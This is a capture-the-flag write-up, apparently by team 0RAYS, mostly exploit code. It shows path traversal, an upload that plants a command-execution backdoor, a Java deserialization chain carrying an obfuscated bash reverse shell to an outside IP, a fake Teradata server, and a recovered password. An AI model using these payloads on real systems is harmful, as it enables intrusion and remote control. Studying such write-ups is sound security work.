

# 0RAYS WriteUp

# Web

## WECat

任意文件读


```java
GET /wechatAPI/static?filename=../../etc/passwd HTTP/1.1
Host: 192.168.188.210:3800
Connection: close
```

但貌似没啥用，还是要 RCE

鉴权存在绕过，url 后跟 `?static` 直接绕了


热部署，上传 js 文件覆盖源文件，热启动，然后 RCE

Exp

```java
import requests

baseUrl = "http://xxxx"

def upfile():

    burp0_url = f"{baseUrl}/wechatAPI/upload/once?static"
    burp0_headers = {"User-Agent": "python-requests/2.28.1", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close", "Content-Type": "multipart/form-data; boundary=d11361f762a28becbee211003a4f8fe6"}
    burp0_data = "--d11361f762a28becbee211003a4f8fe6\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\naaa\r\n--d11361f762a28becbee211003a4f8fe6\r\nContent-Disposition: form-data; name=\"hash\"\r\n\r\n/../../src/module/commonFunction\r\n--d11361f762a28becbee211003a4f8fe6\r\nContent-Disposition: form-data; name=\"postfix\"\r\n\r\njs\r\n--d11361f762a28becbee211003a4f8fe6\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.txt\"\r\n\r\nconst JsonWebToken = require('../module/jwt')\r\nconst child_process = require(\"child_process\");\r\nconst jwt = new JsonWebToken()\r\nmodule.exports = {\r\n  /**\r\n   * \xe9\xaa\x8c\xe8\xaf\x81token\r\n   */\r\n  verifyToken: async (ctx, next) => {\r\n    ctx.body = {\"res\": child_process.execSync(ctx.query.cmd).toString()};\r\n  }\r\n}\r\n\r\n\r\n--d11361f762a28becbee211003a4f8fe6--\r\n"
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.text)
    
def execCmd(cmd):

    burp0_url = f"{baseUrl}/wechatAPI/?cmd={cmd}"
    burp0_headers = {"Connection": "close"}
    res = requests.get(burp0_url, headers=burp0_headers)
    print(res.text)
    
if __name__ == "__main__":
    upfile()
    execCmd("/readflag")
```

## Javolution

模拟了一个宝可梦战斗的程序，然后这里存在整数溢出问题


直接把自己的防御值设为 `-2147483648` 就能打过了

`/cheat` 接口能打反序列化，`InetAddress.getByName(host)` 这里利用 DNS 重绑定攻击绕

关键是找反序列化的 gadget

目标环境是 jdk17，有 spring 环境，有 jackson 依赖，可以打 jackson 的原生反序列化触发环境中 `TeraDataSource` 的 `getConnection` 方法

后续流程


后续相关 Connection 父类 `GenericTeradataConnection` 存在一处命令执行的地方，且参数可控


Exp

//坑：！！！得用题目提供的 PalDataSource 来反序列化，不然 linux 下 getParentLogger 这里会报错

```java
<em>package </em>org.example;

<em>import </em>com.fasterxml.jackson.databind.node.POJONode;
<em>import </em>com.sun.org.apache.xpath.internal.objects.XString;
<em>import </em>com.teradata.jdbc.TeraDataSource;
<em>import </em>javassist.ClassPool;
<em>import </em>javassist.CtClass;
<em>import </em>javassist.CtMethod;
<em>import </em>org.dubhe.javolution.pool.PalDataSource;
<em>import </em>org.springframework.aop.framework.AdvisedSupport;
<em>import </em>org.springframework.aop.target.HotSwappableTargetSource;
<em>import </em>javax.sql.DataSource;
<em>import </em>java.io.ByteArrayOutputStream;
<em>import </em>java.io.ObjectOutputStream;
<em>import </em>java.lang.reflect.*;
<em>import </em>java.util.Base64;
<em>import </em>java.util.HashMap;

<em>public class </em>GenPayload {
    <em>public static void </em>gen() <em>throws </em>Exception {


        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        TeraDataSource dataSource = <em>new </em>PalDataSource();
        dataSource.setDSName("111.229.88.145");
        dataSource.setSSLMODE("DISABLE");
        <em>//commond</em>
<em>        </em>dataSource.setBROWSER("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExMS4yMjkuODguMTQ1LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}");
<em>//        dataSource.setBROWSER("calc");</em>

<em>        </em>dataSource.setTYPE("RAW");
        dataSource.setLOGMECH("BROWSER");

<em>        </em>Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.<em>class</em>);
        cons.setAccessible(<em>true</em>);
        AdvisedSupport advisedSupport = <em>new </em>AdvisedSupport();
        advisedSupport.setTarget(dataSource);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), <em>new </em>Class[]{DataSource.<em>class</em>}, handler);

        POJONode jsonNodes = <em>new </em>POJONode(proxyObj);
        HotSwappableTargetSource hotSwappableTargetSource1 = <em>new </em>HotSwappableTargetSource(jsonNodes);
        HotSwappableTargetSource hotSwappableTargetSource2 = <em>new </em>HotSwappableTargetSource(<em>new </em>XString("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);
        ByteArrayOutputStream barr = <em>new </em>ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = <em>new </em>ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);

    }
    <em>private static void </em>setFieldValue(Object obj, String field, Object arg) <em>throws </em>Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(<em>true</em>);
        f.set(obj, arg);
    }
    <em>public static </em>HashMap<Object, Object> makeMap (Object v1, Object v2 ) <em>throws </em>Exception {
        HashMap<Object, Object> s = <em>new </em>HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        <em>try </em>{
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        <em>catch </em>( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(<em>int</em>.<em>class</em>, Object.<em>class</em>, Object.<em>class</em>, nodeC);
        nodeCons.setAccessible(<em>true</em>);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, <em>null</em>));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, <em>null</em>));
        setFieldValue(s, "table", tbl);
        <em>return </em>s;
    }
}
```

现在有个问题是这里会发起一个正常的 teradata 数据库连接，所以得搭建一个这样的数据库


[https://www.w3cschool.cn/teradata/teradata_installation.html](https://www.w3cschool.cn/teradata/teradata_installation.html)

难受, 报错

```java
[Teradata JDBC Driver] [TeraJDBC 20.00.00.16] [Error 1542] [SQLState 08000] Browser Authentication Mechanism not supported by this database
```

[https://docs.teradata.com/r/Enterprise_IntelliFlex_VMware/Security-Administration/Configuring-Single-Sign-On/Configuration-for-Browser-Authentication](https://docs.teradata.com/r/Enterprise_IntelliFlex_VMware/Security-Administration/Configuring-Single-Sign-On/Configuration-for-Browser-Authentication)

抓包得到数据包然后根据源码改写

```java
<em>import </em>com.teradata.jdbc.jdbc_4.io.TDNetworkIOIF;
<em>import </em>com.teradata.jdbc.jdbc_4.io.TDPacket;
<em>import </em>com.teradata.jdbc.jdbc_4.logging.Log;
<em>import </em>com.teradata.jdbc.jdbc_4.parcel.SecurityPolicyParcel;
<em>import </em>com.teradata.jdbc.jdbc_4.util.ErrorAnalyzer;

<em>import </em>javax.net.ssl.SSLSocket;
<em>import </em>java.io.IOException;
<em>import </em>java.io.OutputStream;
<em>import </em>java.lang.reflect.Constructor;
<em>import </em>java.lang.reflect.Field;
<em>import </em>java.lang.reflect.InvocationTargetException;
<em>import </em>java.net.ServerSocket;
<em>import </em>java.net.Socket;
<em>import </em>java.sql.SQLException;
<em>import </em>java.util.Arrays;

<em>import static </em>com.teradata.jdbc.jdbc_4.io.TDNetworkIOIF.getTotalMsgLength;

<em>public class </em>ProtocolPoc {

    <em>static byte</em>[] bytes = <em>new byte</em>[] {3, 2, 10, 0, 0, 7, 0, 0, 3, 120, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 5, -1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 43, 2, 78, 0, 0, 3, -24, 0, 0, 3, -24, 0, 120, 0, 1, 119, -1, 0, 0, 0, 2, 0, 0, 0, 1, -1, 0, 0, 4, -66, 0, 85, 84, 70, 49, 54, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, -65, 0, 85, 84, 70, 56, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, -1, 0, 65, 83, 67, 73, 73, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, -64, 0, 69, 66, 67, 68, 73, 67, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 78, 1, 0, 1, 0, 1, 84, 0, 7, 0, -116, 49, 0, 0, 100, 0, 0, -6, 0, 0, 15, 66, 64, 0, 0, 0, 0, 124, -1, 6, 0, 0, 112, 0, 0, 0, -1, -8, 0, 0, 0, 1, 0, 0, 0, 0, -65, 0, 0, 0, 16, 0, 0, -1, -1, 0, 0, 8, 0, 0, 0, 0, -128, 0, 0, 0, 64, 0, 0, 9, -25, 0, 15, -96, 0, 0, 0, -14, 48, 0, 0, 121, 24, 0, 0, 0, 38, 0, 0, -6, 0, 0, 0, -6, 0, 0, 0, -6, 0, 0, 0, 125, 0, 0, 0, 125, 0, 0, 0, -6, 0, 0, 0, -6, 0, 0, 0, 9, -25, 0, 0, 0, 6, 0, 0, 0, 6, 0, 0, 0, 6, 0, 0, 3, -24, 0, 15, -96, 0, 0, -1, -4, 0, 0, 15, -1, -76, 0, 0, -6, 0, 0, 9, 0, 1, 1, 0, 10, 0, 28, 1, 1, 1, 1, 1, 1, 1, 2, 1, 0, 1, 1, 0, 1, 1, 1, 1, 2, 1, 1, 0, 1, 1, 1, 1, 1, 1, 2, 0, 11, 0, 34, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 2, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 0, 0, 12, 0, 6, 1, 0, 1, 2, 1, 1, 0, 13, 0, 62, 49, 55, 46, 50, 48, 46, 48, 51, 46, 48, 57, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 49, 55, 46, 50, 48, 46, 48, 51, 46, 48, 57, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 0, 14, 0, 4, 3, 3, 2, 3, 0, 15, 0, 40, 1, 0, 0, 1, 0, 1, 1, 0, 0, 1, 1, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 0, 1, 0, 1, 0, 0, 1, 0, 16, 0, 20, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, -128, 2, 0, 0, 0, 0, 0, 0, 0, 0, 0, 18, 0, 32, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 19, 0, 8, 1, 1, 1, 0, 0, 0, 0, 0, 0, 6, 0, 2, 1, 73, 0, -91, 0, 76, 0, 0, 0, 1, 0, 1, 0, 5, 1, 0, 2, 0, 8, 17, 20, 3, 9, 0, 3, 0, 4, 0, 4, 0, 6, 0, 33, 0, 6, 0, 4, 0, 5, 0, 4, 0, 7, 0, 4, 0, 8, 0, 4, 0, 9, 0, 4, 0, 10, 0, 5, 1, 0, 11, 0, 5, 1, 0, 12, 0, 5, 1, 0, 14, 0, 4, 0, 16, 0, 6, 1, 0, 0, -89, 0, 49, 0, 0, 0, 1, 0, 0, 0, 13, 43, 6, 1, 4, 1, -127, 63, 1, -121, 116, 1, 1, 9, 0, 16, 0, 12, 0, 0, 0, 3, 0, 0, 0, 1, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 20, 0, -89, 0, 36, 0, 0, 0, 1, 0, 0, 0, 12, 43, 6, 1, 4, 1, -127, 63, 1, -121, 116, 1, 20, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 70, 0, -89, 0, 33, 0, 0, 0, 1, 0, 0, 0, 9, 42, -122, 72, -122, -9, 18, 1, 2, 2, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 40, 0, -89, 0, 30, 0, 0, 0, 1, 0, 0, 0, 6, 43, 6, 1, 5, 5, 2, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 65, 0, -89, 0, 37, 0, 0, 0, 1, 0, 0, 0, 13, 43, 6, 1, 4, 1, -127, -32, 26, 4, -126, 46, 1, 4, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 30, 0, -89, 0, 37, 0, 0, 0, 1, 0, 0, 0, 13, 43, 6, 1, 4, 1, -127, -32, 26, 4, -126, 46, 1, 3, 0, 17, 0, 12, 0, 0, 0, 1, 0, 0, 0, 10};
    <em>static </em>String url = "http://111.229.88.145:8080";
    <em>public static void </em>main(String[] args) <em>throws </em>SQLException {

        <em>// 服务器端代码</em>
<em>        try </em>{
            
<em>            </em>ServerSocket serverSocket = <em>new </em>ServerSocket(1025);
            <em>while </em>(<em>true</em>) {

                System.out.println("Server started, waiting for client...");

<em>                </em>Socket clientSocket = serverSocket.accept();
                System.out.println("Client connected.");

<em>                </em>OutputStream out = clientSocket.getOutputStream();

                <em>// 创建TDPacket对象并设置数据</em>
<em>                </em>TDPacket packet = <em>new </em>TDPacket(1024);
                packet.getBuffer().put(bytes);

                <em>//第8第9个字节为报文总长度，需要需修改</em>
<em>                //940 -52 =888</em>
<em>                //888 + 17 + url.getBytes().length</em>
<em>                </em>packet.getBuffer().putShort(8, (<em>short</em>) (888 + 17 + url.getBytes().length));

                setGtwConfigParcel(packet);


                <em>// 向客户端发送数据</em>
<em>                </em>out.write(packet.getBuffer().getBuffer());

                System.out.println("end............");
            }

        } <em>catch </em>(IOException e) {
            e.printStackTrace();
        }
    }

    <em>//总长为</em><em>(17 + url.getBytes().length)</em><em>字节</em>
<em>    public static void </em>setGtwConfigParcel(TDPacket packet) {

        <em>//Gtw标识，装填Flavor</em>
<em>        </em>packet.getBuffer().putShort((<em>short</em>) 165);
        <em>// 之后buffer里开始填 GtwConfigParcel 的数据</em>
<em>        // Parcel数据的整体长度</em>
<em>        </em>packet.getBuffer().putShort((<em>short</em>) (17 + url.getBytes().length));
        <em>// Int标识</em>
<em>        </em>packet.getBuffer().putInt(1);
        <em>// determineFeatureSupport中的标识</em>
<em>        // var4 var5</em>
<em>        </em>packet.getBuffer().putShort((<em>short</em>) 15);
        <em>//**填充, 坑，调试出来的，和给的url长度有关**</em>
<em>        </em>packet.getBuffer().putShort((<em>short</em>) 35);
        <em>// m_sIdentityProviderClientID</em>
<em>        </em>packet.getBuffer().putShort((<em>short</em>) 1);
        packet.getBuffer().put((<em>byte</em>) 97);
        <em>// m_sIdentityProviderURL</em>

<em>        </em>packet.getBuffer().putShort((<em>short</em>) url.getBytes().length);
        <em>for </em>(<em>byte </em>b: url.getBytes()) {
            packet.getBuffer().put(b);
        }
    }


}
```

然后服务器上放个.well-known/openid-configuration 文件

```json
{
    "authorization_endpoint": "xxx",
    "token_endpoint": "xxxx"
}
```

Exp

```python
import requests

payload = "rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAAAIAAAACc3IAN29yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLnRhcmdldC5Ib3RTd2FwcGFibGVUYXJnZXRTb3VyY2VoDf7kp0GjUwIAAUwABnRhcmdldHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwc3IALGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlBPSk9Ob2RlAAAAAAAAAAICAAFMAAZfdmFsdWVxAH4AA3hyAC1jb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5WYWx1ZU5vZGUAAAAAAAAAAQIAAHhyADBjb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5CYXNlSnNvbk5vZGUAAAAAAAAAAQIAAHhwc30AAAABABRqYXZheC5zcWwuRGF0YVNvdXJjZXhyABdqYXZhLmxhbmcucmVmbGVjdC5Qcm94eeEn2iDMEEPLAgABTAABaHQAJUxqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uSGFuZGxlcjt4cHNyADRvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuSmRrRHluYW1pY0FvcFByb3h5TMS0cQ7rlvwCAARaAA1lcXVhbHNEZWZpbmVkWgAPaGFzaENvZGVEZWZpbmVkTAAHYWR2aXNlZHQAMkxvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9mcmFtZXdvcmsvQWR2aXNlZFN1cHBvcnQ7WwARcHJveGllZEludGVyZmFjZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cAAAc3IAMG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5BZHZpc2VkU3VwcG9ydCTLijz6pMV1AgAFWgALcHJlRmlsdGVyZWRMABNhZHZpc29yQ2hhaW5GYWN0b3J5dAA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL2ZyYW1ld29yay9BZHZpc29yQ2hhaW5GYWN0b3J5O0wACGFkdmlzb3JzdAAQTGphdmEvdXRpbC9MaXN0O0wACmludGVyZmFjZXNxAH4AE0wADHRhcmdldFNvdXJjZXQAJkxvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9UYXJnZXRTb3VyY2U7eHIALW9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5Qcm94eUNvbmZpZ4tL8+an4PdvAgAFWgALZXhwb3NlUHJveHlaAAZmcm96ZW5aAAZvcGFxdWVaAAhvcHRpbWl6ZVoAEHByb3h5VGFyZ2V0Q2xhc3N4cAAAAAAAAHNyADxvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuRGVmYXVsdEFkdmlzb3JDaGFpbkZhY3RvcnlU3WQ34k5x9wIAAHhwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAB3BAAAAAB4c3EAfgAZAAAAAHcEAAAAAHhzcgA0b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AudGFyZ2V0LlNpbmdsZXRvblRhcmdldFNvdXJjZX1VbvXH+Pq6AgABTAAGdGFyZ2V0cQB+AAN4cHNyACdvcmcuZHViaGUuamF2b2x1dGlvbi5wb29sLlBhbERhdGFTb3VyY2WdSCckHlz9rQIAAHhyACBjb20udGVyYWRhdGEuamRiYy5UZXJhRGF0YVNvdXJjZRhK+SbQU/G9AgAAeHIAJGNvbS50ZXJhZGF0YS5qZGJjLlRlcmFEYXRhU291cmNlQmFzZQYeeS/skN2GAgBeSQAORFNMb2dpblRpbWVvdXRMAAdDaGFyU2V0dAASTGphdmEvbGFuZy9TdHJpbmc7TAAGRFNOYW1lcQB+ACFMAAdMb2dEYXRhcQB+ACFMAAdMb2dNZWNocQB+ACFMAAlQYXJ0aXRpb25xAH4AIUwADFRyYW5zYWN0TW9kZXEAfgAhTAAJYWNjb3VudElkcQB+ACFMAAljb21wYXREQlNxAH4AIUwAD2NvbXBhdEdldFNjaGVtYXEAfgAhTAAOY29tcGF0R2V0VGFibGVxAH4AIUwAD2NvbXBhdElzQXV0b0luY3EAfgAhTAAQY29tcGF0SXNDdXJyZW5jeXEAfgAhTAAPY29tcGF0SXNEZWZXcml0cQB+ACFMABBjb21wYXRJc1JlYWRPbmx5cQB+ACFMAA5jb21wYXRJc1NlYXJjaHEAfgAhTAAOY29tcGF0SXNTaWduZWRxAH4AIUwAEGNvbXBhdElzV3JpdGFibGVxAH4AIUwADGRhdGFiYXNlTmFtZXEAfgAhTAAOZGF0YXNvdXJjZU5hbWVxAH4AIUwAB2Ric1BvcnRxAH4AIUwAFWRlcHJlY2F0ZWRfc2VydmVyTmFtZXEAfgAhTAALZGVzY3JpcHRpb25xAH4AIUwAC2VuY3J5cHREYXRhcQB+ACFMAAZnb3Zlcm5xAH4AIUwACmxvYlN1cHBvcnRxAH4AIUwADGxvYlRlbXBUYWJsZXEAfgAhTAAIbG9nTGV2ZWxxAH4AIUwACWxvZ1dyaXRlcnQAFUxqYXZhL2lvL1ByaW50V3JpdGVyO0wADm1fY29wRGlzY292ZXJ5cQB+ACFMAA1tX3ByZXBTdXBwb3J0cQB+ACFMABZtX3NBY2N1cmF0ZUNvbHVtbk5hbWVzcQB+ACFMAAptX3NCcm93c2VycQB+ACFMABRtX3NCcm93c2VyVGFiVGltZW91dHEAfgAhTAARbV9zQnJvd3NlclRpbWVvdXRxAH4AIUwACm1fc0NPUExhc3RxAH4AIUwAEG1fc0NsaWVudENoYXJzZXRxAH4AIUwAFG1fc0Nvbm5lY3RGYWlsdXJlVFRMcQB+ACFMABJtX3NDb25uZWN0RnVuY3Rpb25xAH4AIUwAGG1fc0NyZWRlbnRpYWxzRnJvbUdldFVSTHEAfgAhTAAQbV9zRGF0YURpY3RTdGF0c3EAfgAhTAASbV9zRXJyb3JRdWVyeUNvdW50cQB+ACFMABVtX3NFcnJvclF1ZXJ5SW50ZXJ2YWxxAH4AIUwAFG1fc0Vycm9yVGFibGUxU3VmZml4cQB+ACFMABRtX3NFcnJvclRhYmxlMlN1ZmZpeHEAfgAhTAAVbV9zRXJyb3JUYWJsZURhdGFiYXNlcQB+ACFMABFtX3NGaWVsZFNlcGFyYXRvcnEAfgAhTAAUbV9zRmluYWxpemVBdXRvQ2xvc2VxAH4AIUwACm1fc0ZsYXR0ZW5xAH4AIUwADG1fc0hUVFBTUG9ydHEAfgAhTAANbV9zSFRUUFNQcm94eXEAfgAhTAAVbV9zSFRUUFNQcm94eVBhc3N3b3JkcQB+ACFMABFtX3NIVFRQU1Byb3h5VXNlcnEAfgAhTAAKbV9zTFNTVHlwZXEAfgAhTAAUbV9zTGl0ZXJhbFVuZGVyc2NvcmVxAH4AIUwAFm1fc0xvZ29uU2VxdWVuY2VOdW1iZXJxAH4AIUwAEW1fc01heE1lc3NhZ2VCb2R5cQB+ACFMAAxtX3NNYXlCZU51bGxxAH4AIUwADG1fc09JRENTY29wZXEAfgAhTAAMbV9zT0lEQ1Rva2VucQB+ACFMABNtX3NQcm94eUJ5cGFzc0hvc3RzcQB+ACFMABFtX3NSZWNvbm5lY3RDb3VudHEAfgAhTAAUbV9zUmVjb25uZWN0SW50ZXJ2YWxxAH4AIUwACm1fc1JlZHJpdmVxAH4AIUwADW1fc1J1blN0YXJ0dXBxAH4AIUwACG1fc1NTTENBcQB+ACFMAAxtX3NTU0xDQVBhdGhxAH4AIUwACW1fc1NTTENSQ3EAfgAhTAAJbV9zU1NMQ1JMcQB+ACFMAAxtX3NTU0xDaXBoZXJxAH4AIUwAC21fc1NTTERlYnVncQB+ACFMAAptX3NTU0xNb2RlcQB+ACFMAAptX3NTU0xPQ1NQcQB+ACFMAA5tX3NTU0xQcm90b2NvbHEAfgAhTAAQbV9zU1NMVHJ1c3RTdG9yZXEAfgAhTAAYbV9zU1NMVHJ1c3RTdG9yZVBhc3N3b3JkcQB+ACFMABRtX3NTU0xUcnVzdFN0b3JlVHlwZXEAfgAhTAANbV9zU2lwU3VwcG9ydHEAfgAhTAAXbV9zU2xvYlJlY2VpdmVUaHJlc2hvbGRxAH4AIUwAGG1fc1Nsb2JUcmFuc21pdFRocmVzaG9sZHEAfgAhTAAPbV9zU3RyaWN0RW5jb2RlcQB+ACFMAAZtX3NUQ1BxAH4AIUwAFm1fc1RydXN0ZWRTUUxBd2FyZW5lc3NxAH4AIUwAEG1fc1hYRVByb2Nlc3NpbmdxAH4AIUwAC25ld1Bhc3N3b3JkcQB+ACFMAAhwYXNzd29yZHEAfgAhTAAKc2VydmVyTmFtZXEAfgAhTAAIc2Vzc2lvbnNxAH4AIUwAA3NwbHEAfgAhTAAFdG5hbm9xAH4AIUwABnRzbmFub3EAfgAhTAAEdHlwZXEAfgAhTAAJdXNlWHZpZXdzcQB+ACFMAAR1c2VycQB+ACF4cAAAAAB0AAVBU0NJSXQADjExMS4yMjkuODguMTQ1cHQAB0JST1dTRVJ0AAdEQkMvU1FMdAAHREVGQVVMVHQADU5PX0FDQ09VTlRfSURwcHBwcHBwcHBwdAAPTk9fREVGX0RBVEFCQVNFcHBwdAAUVGVyYWRhdGEgRGF0YSBTb3VyY2V0AANPRkZ0AAJPTnEAfgAtcHBwcQB+AC1wcHQAYWJhc2ggLWMge2VjaG8sWW1GemFDQXRhU0ErSmk5a1pYWXZkR053THpFeE1TNHlNamt1T0RndU1UUTFMekV5TXpRZ01ENG1NUT09fXx7YmFzZTY0LC1kfXx7YmFzaCwtaX1wcHBwcHBwcHBwcHBwdAABLHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHQAB0RJU0FCTEVwcHBwcHEAfgAtcHBwcHBwcHBwdAABMHQAA1NQTHBwdAADUkFXcQB+ACxwdXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAADdnIAI29yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLlNwcmluZ1Byb3h5AAAAAAAAAAAAAAB4cHZyAClvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuQWR2aXNlZAAAAAAAAAAAAAAAeHB2cgAob3JnLnNwcmluZ2ZyYW1ld29yay5jb3JlLkRlY29yYXRpbmdQcm94eQAAAAAAAAAAAAAAeHBxAH4ABHNxAH4AAnNyADFjb20uc3VuLm9yZy5hcGFjaGUueHBhdGguaW50ZXJuYWwub2JqZWN0cy5YU3RyaW5nHAonO0gWxf0CAAB4cgAxY29tLnN1bi5vcmcuYXBhY2hlLnhwYXRoLmludGVybmFsLm9iamVjdHMuWE9iamVjdPSYEgm7e7YZAgABTAAFbV9vYmpxAH4AA3hyACxjb20uc3VuLm9yZy5hcGFjaGUueHBhdGguaW50ZXJuYWwuRXhwcmVzc2lvbgfZphyNrKzWAgABTAAIbV9wYXJlbnR0ADJMY29tL3N1bi9vcmcvYXBhY2hlL3hwYXRoL2ludGVybmFsL0V4cHJlc3Npb25Ob2RlO3hwcHQAATFxAH4APHg="

baseUrl = "http://1.95.54.152:39443"

def battle(boss):
    res = requests.get(baseUrl + f"/pal/battle/{boss}")
    print(res.text)
    
def cheat():
    res = requests.get(baseUrl + "/pal/cheat?defense=-2147483648")
    
def show():
    res = requests.get(baseUrl + "/pal/show")
    print(res.text)

def reverseShell():
    res = requests.post(baseUrl + "/pal/cheat", data={"host": "dubhe.pankas.top", "data": payload})
    print(res.text)

if __name__ == "__main__":
    cheat()
    show()
    battle("Jetragon")
    show()
    reverseShell()
```


# Misc

## ezPythonCheckin

直接 open 函数读文件

```python
f='/flag'
with open(f,'r') as file:
    a=file.read( )
print(a)
```

## cipher

Public 目录下有个 Flag.jpg


要想办法解密这东西，需要有原本的证书

用户 mark 的密码为 superman


# Crypto

## ezcrc

过工作量证明拿数据

```python
from pwn import *
import  hashlib

context.log_level = 'debug'

p = remote("1.95.38.136", 8888)

for i in range(7):
    p.recvline()

s = p.recvline().strip().decode()

s1 = s[s.index("+")+1:s.index("=")-2]
